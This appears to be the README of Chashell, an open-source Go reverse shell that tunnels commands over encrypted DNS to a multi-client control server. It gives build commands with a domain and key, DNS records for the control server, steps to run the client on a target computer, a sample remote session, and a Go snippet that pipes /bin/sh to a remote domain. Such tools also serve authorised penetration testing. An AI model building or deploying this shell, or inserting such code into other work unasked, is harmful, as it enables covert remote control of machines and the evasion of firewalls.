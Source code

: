 # Chashell

## Reverse Shell over DNS

Chashell is a [Go](https://golang.org/) reverse shell that communicate using DNS. 
It can be used to bypass firewall or heavy restricted networks.

It comes with a multi-client control server named *chaserv*.

![Chaserv](img/chaserv.gif)

### Communication security

Every packets are encrypted using symetric cryptography ([XSalsa20](https://en.wikipedia.org/wiki/Salsa20) + [Poly1305](https://en.wikipedia.org/wiki/Poly1305)) with a shared key between the client
and the server.

Asymetric cryptography is **planned**, however we still have issues regarding the key exchange.

### Supported systems

All desktop systems (Windows, Linux, Darwin, BSD variants) supported by the Go compiler should work.

We tested those systems and it works without issues :

* Windows (386/amd64)
* Linux (386/amd64/arm64)


### How to use Chaserv/Chashell

#### Building

Build all the binaries (change the domain_name and the encryption key) :


```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.sysdream.com
$ make build-all
```

Building for a specific platform :

```
$ make build-all OSARCH="linux/arm"
```

Building the server only :

```
$ make build-server
```

Building the client (chashell) only :

```
$ make build-client
```

#### DNS Settings

* Buy/use a domain name of your choice (small if possible).
* Set a DNS record like this : 

```
chashell 300 IN A [SERVERIP]
c 300 IN NS chashell.[DOMAIN].
```

* Run chaserv on the control server.
* Run chashell on the target computer.

The client should now appear on chaserv :

```
[n.chatelain]$ sudo ./chaserv
chashell >>> sessions 5c54404419e59881dfa3a757
Interacting with session 5c54404419e59881dfa3a757.
whoami
n.chatelain
ls /
bin
boot
dev
[...]
usr
var
```

On the server, use the chaserv binary.
For the client (or the target), use the chashell binary.

## Implement your own

The *chashell/lib/transport* is compatible with the *io.Reader* / *io.Writer* interface. So, implementing a reverse shell is easy as :

```go
cmd := exec.Command("/bin/sh")

dnsTransport := transport.DNSStream(targetDomain, encryptionKey)

cmd.Stdout = dnsTransport
cmd.Stderr = dnsTransport
cmd.Stdin = dnsTransport
cmd.Run()
```

